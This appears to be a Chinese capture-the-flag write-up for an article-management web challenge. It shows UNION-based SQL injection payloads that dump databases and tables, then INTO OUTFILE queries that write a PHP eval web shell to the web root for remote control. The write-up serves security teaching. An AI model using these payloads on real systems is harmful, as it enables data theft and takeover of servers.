






## 文章管理系统

### sql 注入

```
?id=1 order by 2 --+
```

首先试出字段数为 2, 网页有回显, 并且为数字型注入;

然后尝试联合注入:

```
?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

之后继续爆表名, 列名, 最后查到当前表名, 列名后:

```
?id=0 union select group_concat(title),group_concat(word) from articles --+
```



很可惜这是个假flag;

重新爆一遍库, 能发现有个 ctftraining 库:



继续爆表, 能发现一个很可疑的表





很可惜这个表是空的爆不出内容; 那么很有可能flag 并不在 mysql 的表里, 这里可能需要用 mysql 提权;

```
?id=0 UNION SELECT 1,'<?php phpinfo(); ?>' INTO OUTFILE '/var/www/html/shell.php'
```

访问一下:



能看到写入成功了, 那么可以写木马了;

```
?id=0%20UNION%20SELECT%201,%27%3C?php%20@eval($_POST[123]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/shell2.php%27
```

蚁剑连接: 



